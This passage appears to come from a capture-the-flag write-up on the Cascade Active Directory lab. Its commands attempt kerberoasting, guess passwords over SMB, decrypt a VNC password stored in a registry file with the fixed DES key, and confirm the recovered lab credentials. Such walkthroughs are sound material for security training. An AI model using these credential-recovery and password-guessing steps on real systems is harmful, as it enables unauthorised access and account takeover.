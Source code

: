 Let’s first open the html, it seems the most interesting:

```bash
Username is TempAdmin (password is the same as the normal admin account password). 
```

In the ArkAdRecycleBin.log, we also see a svc user: CASCADE\ArkSvc. But in log, we also see that the user TempAdmin got deleted, let’s check regardless.

Let’s try see if there are any kerberoastable accounts:

```bash
nxc ldap CASC-DC1.cascade.local -u r.thompson -p rY4n5eva --kerberoasting kerberoasting.out
```

None. Now let’s see if the TempAdmin account works:

```bash
nxc smb 10.10.10.182 -u TempAdmin -p TempAdmin 

nxc smb 10.10.10.182 -u TempAdmin -p admin
```

Did not work.

We still have the vnc file. Upon searching up vnc password decrypt, we get led to this site:

[https://github.com/frizb/PasswordDecrypts](https://github.com/frizb/PasswordDecrypts)

We first have to find the encrypted vnc password in the registry file, so let’s just open it in texteditor:

```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

Let’s clean it up:

```bash
6bcf2a4b6e5aca0f

```

Now following the post:

```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

result:
sT333ve2

```

We got this registry file in s.smith’s folder, so let’s check if this is indeed his password:

```bash
nxc smb 10.10.10.182 -u s.smith -p sT333ve2

result:
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\\s.smith:sT333ve2

```
